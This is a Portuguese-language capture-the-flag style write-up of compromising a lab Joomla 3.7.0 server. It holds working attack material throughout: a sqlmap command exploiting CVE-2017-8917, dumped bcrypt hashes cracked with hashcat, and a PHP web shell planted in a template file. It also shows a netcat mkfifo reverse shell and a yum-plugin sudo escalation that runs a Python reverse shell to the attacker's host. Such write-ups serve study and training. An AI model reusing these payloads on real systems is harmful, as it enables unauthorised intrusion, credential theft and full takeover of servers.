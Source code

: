 EHPT - DareDevil

# EHPT - DareDevil

## Enumeração

### Scan inicial

- Full NMAP scan TCP

  ```
  # Nmap 7.80 scan initiated Sun Jun 21 13:13:41 2020 as: nmap -sC -sV -oA quick 172.16.0.129
  Nmap scan report for 172.16.0.129
  Host is up (0.65s latency).
  Not shown: 996 filtered ports
  PORT     STATE  SERVICE    VERSION
  22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 4a:9f:3f:71:3e:d0:a3:81:5b:54:04:14:54:b4:e6:0a (RSA)
  |   256 33:4b:af:35:6e:1a:c0:f9:73:d4:9f:29:fa:a2:35:af (ECDSA)
  |_  256 1a:a0:ed:a2:2a:c7:ee:4c:47:ef:1b:80:7a:de:dc:a0 (ED25519)
  80/tcp   open   http       Apache httpd 2.4.37 ((centos))
  |_http-generator: Joomla! - Open Source Content Management
  | http-robots.txt: 15 disallowed entries 
  | /joomla/administrator/ /administrator/ /bin/ /cache/ 
  | /cli/ /components/ /includes/ /installation/ /language/ 
  |_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
  |_http-server-header: Apache/2.4.37 (centos)
  |_http-title: Home
  443/tcp  closed https
  9090/tcp closed zeus-admin
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Sun Jun 21 13:15:01 2020 -- 1 IP address (1 host up) scanned in 80.23 seconds
  ```

### 80/TCP - HTTP

- Analisando a porta 80/TCP, notado que existe um serviço HTTP em execução com o serviço de CMS Joomla

- Para enumerção utilizado script Joomscan que lista, dentre outras informações, qual a versão do CMS utilizada

  ```
                                                                                                                                                                                      [46/46]
      ____  _____  _____  __  __  ___   ___    __    _  _ 
     (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
    .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
    \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                          (1337.today)           
                                 
      --=[OWASP JoomScan                                                                        
      +---++---==[Version : 0.0.7                                                               
      +---++---==[Update Date : [2018/09/23]
      +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
      --=[Code name : Self Challenge             
      @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
                                                 
  Processing http://172.16.0.129 ...             
                                                 
                                                 
                                                 
  [+] FireWall Detector                          
  [++] Firewall not detected     
                                                 
  [+] Detecting Joomla Version                   
  [+ Joomla 3.7.0         
  ```



## Exploração

## CVE-2017-8917

- Após execução do Joomscan,  identificado que a versão em uso é a 3.7.0, a qual possui uma vulnerabilidade de SQL Injection

  ```
  dcruz@kali:/dcruz/ehpt/daredevil/scan$ searchsploit joomla 3.7.0
  ------------------------------------------------------------ ---------------------------------
   Exploit Title                                              |  Path
  ------------------------------------------------------------ ---------------------------------
  Joomla! 3.7.0 - 'com_fields' SQL Injection                  | php/webapps/42033.txt
  Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripti | php/webapps/43488.txt
  ------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

  ```
  URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
  
  Using Sqlmap: 
  
  sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
  
  available databases [5]:
  [*] information_schema
  [*] joomla_db
  [*] joomla_DB
  [*] mysql
  [*] performance_schema
  
  Database: joomla_DB                         
  Table: s62u1_users                        
  [1 entry]                                
  +----------+--------------------------------------------------------------+
  | username | password                                                     |
  +----------+--------------------------------------------------------------+
  | murdock  | $2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u |
  +----------+--------------------------------------------------------------+
  
  Table: bak_#__users
  [1 entry]
  +----------+--------------------------------------------------------------+
  | username | password                                                     |
  +----------+--------------------------------------------------------------+
  | murdock  | $2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G |
  +----------+--------------------------------------------------------------+
  ```

- Utilizando o SQLmap, listado o username e hash de senha do usuário, o qual foi possível quebrar utilizando o hashcat conforme comandos abaixo

  ```
  hashcat -m3200 hash /usr/shared/wordlists/rockyou --force
  
  hashcat -m3200 hash --show
  $2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G:letmein
  $2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u:letmein
  ```

- Com a senha do adminitrador murdock, acessado o painel administrativo do joomla e configurado, no lugar da pagina error.php, um shell para execução remota

  ```php
  <?php system($_GET['cmd']);?>
  ```

- A partir desta pagina, que se encontra no caminho /templates/protostar/error.php foi possível obter execução remota ao passar o comando na variavel get, conforme acima criado

  ![image-20200622181255650](C:\Temp\EHPT\DareDevil.assets\image-20200622181255650.png)

- A partir desta execução, obtido shell reverso enviando o seguinte comando

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.0.128 4443 >/tmp/f
  ```

- A partir da conta apache, a qual foi a conta com que foi obtido o shell, realizada a enumerção da maquina, iniciando pelas credenciais do banco de dados, porem esta senha nao funcionou para o usuário root

  ```
  public $user = 'root';         
  public $password = 'thebigbangtheory';
  public $db = 'joomla_db';    
  ```

- Para enumerar os users da maquina, executado o comando users e o usuário usuário retornado foi o murdock, para o qual foi tentada a senha obtida e houve êxito, obtendo a flag de user

  ```
  [murdock@localhost ~]$ cat user.txt 
  0584f2d8a427826209eac4de5a12596a
  ```

  

## Escalação de Privilégios

- Ao acessar com o usuário murdock, uma vez que se tem a sua senha, executado o comando sudo -l e validado que  mesmo pode executar o comando yum com permissões administrativas

  ```
  [murdock@localhost ~]$ sudo -l
  Entradas de Defaults correspondentes a murdock em localhost:
      !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
      USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
      env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
  
  Usuário murdock pode executar os seguintes comandos em localhost:
      (root) NOPASSWD: /usr/bin/yum
  [murdock@localhost ~]$      
  ```

- Pesquisando no GTFOBins, validado que é possivel escalar utilizando um plugin ou rpm crafted. o seguinte procedimento foi realizado que envia um shell reverso como root

  ```
  TF=$(mktemp -d)
  cat >$TF/x<<EOF
  [main]
  plugins=1
  pluginpath=$TF
  pluginconfpath=$TF
  EOF
  
  cat >$TF/y.conf<<EOF
  [main]
  enabled=1
  EOF
  
  cat >$TF/y.py<<EOF
  import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.0.128",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
  EOF
  
  sudo yum -c $TF/x --enableplugin=y
  ```

- Após este procedimento, obtido flag root

  ```
  sh-4.4#cat root.txt
  cat root.txt
  54d22dbab9a3f1ed0f82a774daccc0ab
  sh-4.4#
  ```

  